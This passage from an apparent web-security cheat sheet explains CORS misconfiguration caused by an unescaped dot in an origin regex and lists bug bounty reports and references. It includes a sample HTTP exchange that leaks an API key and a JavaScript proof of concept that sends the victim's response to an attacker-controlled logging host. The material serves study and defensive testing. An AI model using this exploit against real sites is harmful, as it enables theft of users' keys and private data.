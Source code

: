 #### Vulnerable Implementation (Example 2)

In this scenario the server utilizes a regex where the dot was not escaped correctly. For instance, something like this: `^api.example.com$` instead of `^api\.example.com$`. Thus, the dot can be replaced with any letter to gain access from a third-party domain.

```
GET /endpoint HTTP/1.1
Host: api.example.com
Origin: https://apiiexample.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://apiiexample.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}

```

#### Proof of concept (Example 2)

This PoC requires the respective JS script to be hosted at `apiiexample.com`

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```

## Bug Bounty reports

* [CORS Misconfiguration on www.zomato.com - James Kettle (albinowax)](https://hackerone.com/reports/168574)
* [CORS misconfig | Account Takeover - niche.co - Rohan (nahoragg)](https://hackerone.com/reports/426147)
* [Cross-origin resource sharing misconfig | steal user information - bughunterboy (bughunterboy)](https://hackerone.com/reports/235200)
* [CORS Misconfiguration leading to Private Information Disclosure - sandh0t (sandh0t)](https://hackerone.com/reports/430249)
* [[██████] Cross-origin resource sharing misconfiguration (CORS) - Vadim (jarvis7)](https://hackerone.com/reports/470298)

## References

* [Think Outside the Scope: Advanced CORS Exploitation Techniques - @Sandh0t - May 14 2019](https://medium.com/bugbountywriteup/think-outside-the-scope-advanced-cors-exploitation-techniques-dad019c68397)
* [Exploiting CORS misconfigurations for Bitcoins and bounties - James Kettle | 14 October 2016](https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)
* [Exploiting Misconfigured CORS (Cross Origin Resource Sharing) - Geekboy - DECEMBER 16, 2016](https://www.geekboy.ninja/blog/exploiting-misconfigured-cors-cross-origin-resource-sharing/)
* [Advanced CORS Exploitation Techniques - Corben Leo - June 16, 2018](https://www.corben.io/advanced-cors-techniques/)
* [PortSwigger Web Security Academy: CORS](https://portswigger.net/web-security/cors)
* [CORS Misconfigurations Explained - Detectify Blog](https://blog.detectify.com/2018/04/26/cors-misconfigurations-explained/)
